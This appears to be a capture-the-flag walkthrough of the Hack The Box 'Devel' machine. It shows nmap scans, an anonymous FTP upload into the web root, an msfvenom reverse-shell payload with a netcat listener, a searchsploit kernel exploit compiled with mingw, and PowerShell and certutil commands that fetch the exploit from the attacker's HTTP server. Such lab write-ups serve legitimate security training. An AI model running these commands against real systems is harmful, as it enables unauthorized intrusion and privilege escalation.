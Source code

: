 # Devel

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled.png)

# Reconnaissance

### Running Quick initial Nmap Scan

```ruby
sudo nmap -sC -sV -O -oN nmap/initial 10.10.10.5
```

> **-sC** : Scan with nmap’s default script
**-sV** : Service detection
**-O** : OS detection
> 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%201.png)

### Running the full scan

To make sure we’ve covered all the ports.

```python
sudo nmap -sC -sV -O -p- -oN nmap/full 10.10.10.5
```

- -p- : scan all the ports

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%202.png)

We’ve got the same Result

### Running udp scan

```python
sudo nmap -sU -O -oN nmap/udp 10.10.10.5
```

- -sU : udp scan

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%203.png)

Nothing found.

## Attack vectors

- [ ]  21 - ftp — anonymous login allowed
- [ ]  80 - running http server.

# Enumeration

Let’s have a peak in port 80, which is default webpage

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%204.png)

Now have look in ftp. As it allowed anonymous login we can easily log in by these default creds

```python
user : anonymous
pass :
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%205.png)

If you try accessing these file from web you can do that. May be the FTP server is in the same root as the HTTP server. lets test it, 

- upload a file via ftp
- access that file in the web

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%206.png)

FTP commands:

> - **put filename** : will upload local file to target ftp server
- ls : show the directory
> 

Accessing the file in web.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%207.png)

we can access. So we also can execute arbitrary payload by uploading via ftp.

# Gaining Foothold

**Making a reverse shell via msfvenom**

```python

msfvenom -p windows/reverse_tcp LHOST=10.10.16.70 LPORT=9999 -f aspx -o payload.aspx
```

- **-p** : payload type.
- **-LHOST** : my local host where the server will contact
- **-LPORT** : the port on which it will connect
- **-f** : payload type. as our target server is windows we used `aspx` extension
- **-o** : output location and file name

Uploading the `payload.aspx`

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%208.png)

Starting a listener on port 9999

```python
nc -lnvp 9999
```

Executing the payload by accessing that file in the web

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%209.png)

And we get the shell.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2010.png)

Okay, First thing first lets try to access the user flag . 

`cd c:\users` 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2011.png)

Trying to access `babis` 

`cd babis`

permission denied  …

Administrator is also the same

Let's have basic enumeration throughout the machine.

`systeminfo` :

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2012.png)

- It's windows 7 enterprise
- Build 7600 ( quite old , should have vulnerabilities)
- Its running on `32 bit`
- And no `hotfix` available.

**Turning on Hackers Mind:**

So let's search for exploit

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2013.png)

And yeah it has an exploit. Let's follow the first link. It's a kernel exploit .

It's exploit db. To copy the exploit we just need the `EBD-ID` 

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2014.png)

It has instructions too , it will be a great help.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2015.png)

Before doing that you should update your local searchsploit database

`searchsploit -u`

Search for the payload using searchsploit

`searchsploit 40564`

Copying/mirroring the payload in current folder

`searchsploit -m 40564`

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2016.png)

Now, read the payloads and its usage.

According to the instructions we need to compile the payload first according to the machine we are attacking. 

We are attacking the `32 bit` machine.

To download the compiler use the following commnd

```python
sudo apt-get install gcc-mingw-w64
```

Now compile the payload `40564.c` to `exploit.exe` by using following command.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2017.png)

## Payload delivery

First Run an http server in our attacker machine. Which will create a server and will make our current directory accessible from internet. And our current directory will contain the payload.

```python
python3 -m http.server 1337
```

- 1337 is our port in which our server is running.

Now find our local ip.

```python
ipconfig 
```

`tun0` should be our local ip

***Process 1: via powershell***

```python
powershell -c "(new-object System.Net.WebClient).DownloadFile('[http://10.10.16.70:1337/exploit.exe](http://10.10.16.70:1337/exploit.exe)', 'c:\Users\Public\Downloads\exploit.exe')"
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2018.png)

or

***Process 2: Via `certutil`. It's the most convenient way***

```python
certutil.exe -urlcache -split -f http://10.10.16.70:1337/exploit.exe
```

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2019.png)

Sending payload to the victim machine is successful.

Now negative to that specific folder where the payload is uploaded. And simply run the exploit.

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2020.png)

And that's it. We Became `root` .

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2021.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2022.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2023.png)

![Untitled](Devel%20475faba49a5e4772a1bf5e671961e420/Untitled%2024.png)